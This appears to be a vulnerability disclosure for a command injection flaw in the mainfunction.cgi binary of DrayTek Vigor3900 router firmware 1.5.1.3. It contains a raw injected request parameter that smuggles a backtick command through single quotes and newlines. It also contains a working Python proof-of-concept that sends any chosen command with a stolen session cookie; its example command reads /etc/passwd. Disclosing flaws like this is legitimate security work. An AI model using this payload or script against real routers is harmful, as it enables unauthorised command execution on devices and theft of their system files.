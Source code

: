**Supplier**: DrayTek

**Router model**: Vigor3900

**Router Version**: 1.5.1.3

# Vulnerability introduction

Attackers with this version of the router firmware can inject malicious commands into mainfunction.cgi and execute arbitrary commands by calling the get_subconfig function.

# Vulnerability analysis

There is a command injection vulnerability in the sub_EE40 function in the /www/cgi-bin/mainfunction.cgi binary file of this version of the router. In the splicing of characters in the figure below, we can see that we can use single quotes to bypass it.

![image](https://github.com/user-attachments/assets/c9cc648d-5cbf-40a8-bab4-8ca10c90d88c)

![image](https://github.com/user-attachments/assets/2ac25e18-78e8-4d08-83c8-e465dbf40cd5)

![image](https://github.com/user-attachments/assets/1f85576e-ca77-40a3-967e-50417d8d8f81)

action=get_subconfig&config=ipv6_neigh&rtick=%27%0A\`echo${IFS}test>/tmp/hacked\`%0A%27

![image](https://github.com/user-attachments/assets/8934f440-925b-4d84-a231-725f15b69094)

# POC

![image](https://github.com/user-attachments/assets/60c60e7b-7643-491f-92c8-06be81049eda)

```python
import requests

def poc(cmd, Cookie):
    url = "http://10.10.10.2/cgi-bin/mainfunction.cgi"
    data = f"action=get_subconfig&config=ipv6_neigh&rtick=%27%0A`{cmd}`%0A%27"
    headers = {
        "Host": "10.10.10.2",
        "Content-Length": "128",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "*/*",
        "Origin": "http://10.10.10.2",
        "Referer": "http://10.10.10.2/",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
        "Cookie": Cookie,
        "Connection": "close"
    }
    response = requests.post(url, data=data, headers=headers)
    return response.text
#You need to capture the packet first to get the corresponding cookie
cmd = """echo `cat /etc/passwd`"""
Cookie = "SESSION_ID_VIGOR=7:8022D38392BF0B33CDF6F40167C7ADD2"
print(poc(cmd, Cookie))
```


